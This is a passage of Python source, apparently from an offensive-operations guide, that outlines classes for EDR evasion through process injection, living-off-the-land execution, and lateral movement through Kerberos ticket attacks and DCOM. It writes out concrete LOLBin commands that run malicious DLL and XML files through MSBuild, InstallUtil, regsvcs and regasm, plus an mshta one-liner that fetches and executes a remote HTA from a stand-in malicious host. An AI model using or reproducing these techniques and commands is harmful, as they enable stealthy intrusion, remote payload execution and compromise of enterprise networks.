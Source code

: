 ```python
        return self.direct_syscall_execute(payload)
    
    def process_injection_evasion(self):
        """Advanced process injection with EDR evasion"""
        injection_techniques = {
            "process_hollowing": self.process_hollowing_evasion(),
            "atom_bombing": self.atom_bombing_injection(),
            "extra_window_memory": self.ewmi_injection(),
            "process_herpaderping": self.process_herpaderping(),
            "process_ghosting": self.process_ghosting()
        }
        return injection_techniques

class LOTLTechniques:
    """Living Off The Land techniques using trusted binaries"""
    
    def execute_lolbin_commands(self):
        """Execute commands using trusted Windows binaries"""
        lolbin_commands = {
            "msbuild": r"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe malicious.xml",
            "installutil": r"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U malicious.dll",
            "regsvcs": r"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe malicious.dll",
            "regasm": r"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U malicious.dll",
            "mshta": r"mshta.exe javascript:a=GetObject('script:https://malicious.azureedge[.]net/beacon.hta').Exec();close()"
        }
        
        return self.execute_stealthy_command(lolbin_commands)
```

## Phase 5: Enhanced Lateral Movement - Enterprise Scale

### Advanced Lateral Movement Framework
```python
class AdvancedLateralMovement:
    def __init__(self, domain_context):
        self.domain = domain_context
        self.movement_techniques = []
    
    def perform_kerberos_attacks(self):
        """Kerberos-based lateral movement techniques"""
        return {
            "pass_the_ticket": self.pass_the_ticket(),
            "overpass_the_hash": self.overpass_the_hash(),
            "pass_the_key": self.pass_the_key(),
            "skeleton_key": self.install_skeleton_key()
        }
    
    def dcom_lateral_movement(self, target_hosts):
        """Lateral movement using DCOM objects"""
        dcom_methods = [
            ("MMC20.Application", self.mmc20_execute),
            ("ShellWindows", self.shellwindows_execute),
            ("ShellBrowserWindow", self.shellbrowser_execute),
            ("Excel.Application", self.excel_dde_execute),
            ("Visio.Application", self.visio_execute)
        ]
        
```